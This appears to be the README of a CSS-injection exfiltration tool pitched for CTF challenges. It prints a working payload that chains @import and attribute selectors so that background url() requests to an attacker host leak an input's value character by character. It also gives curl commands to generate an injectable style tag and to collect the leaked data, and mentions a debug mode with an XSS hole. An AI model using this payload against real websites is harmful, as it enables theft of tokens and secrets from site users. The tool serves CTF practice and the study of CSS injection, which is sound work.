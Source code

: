 # ONdemand csS injEctioN tool  
The service tool for CSS injection with recursive import. It will be useful for CTF.

This tool provides the following CSS injection payload, and server to listen for leaked data.

```css
@import "http://<HOST>/<key>/<index>/stage2.css";

input[value^="xa"]:first-child {
    background: url("http://<HOST>/<key>/leak/xa");
}
input[value^="xb"]:first-child {
    background: url("http://<HOST>/<key>/leak/xb");
}
input[value^="xc"]:first-child {
    background: url("http://<HOST>/<key>/leak/xc");
}
...
```

CSS has a load priority and will not work as expected if you use import recursive normally. I solved it with the pseudo-class "first-child" chain.  
Reference: https://developer.mozilla.org/docs/Web/CSS/Specificity

## Dependency  
- Python 3.x
- Flask 1.0.3

## Usage  
### Deploy
```
$ pip install -r requirements.txt
```

### Startup service  
```
$ python3 onsen.py
```

When the service starts, `api_secret` is output on the console.

### Make payload  
```
$ curl -d 'c=<USAGE CHARS|default:A-Za-z0-9>&s=<TARGET CSS SELECTOR|default:input[value^="{leaked}"]>&key=<KEY|default:urandom(16).hex()>' http://<HOST>/<api_secret>/set
```

`{leaked}` is replaced by the characters set by `c` param.

#### e.g.)  
```
$ curl -d 's=input[value^="{leaked}"]#secret' http://<HOST>/<api_secret>/set
```

#### Output  
```
{
    "key": "<key>",
    "payload": "<style>@import'http://<HOST>/<key>/stage1.css'</style>"
}
```

Set the payload to the target page.

### Check leaked  
```
$ curl http://<HOST>/<api_secret>/get/<key>
```

#### Output  
```
{
    "run": true|false,
    "leaked": "<LEAKED DATA>"
}
```

### Screenshot  
![screenshot](screenshot.gif)

## Debug  
```
$ FLASK_DEBUG=1 python3 onsen.py
```

*Warning: If you enable debug, you can access the page that the XSS vulnerability exists.*

## More information  
[onsen.py](onsen.py)

## Disclaimer  
Don't use on real world websites.
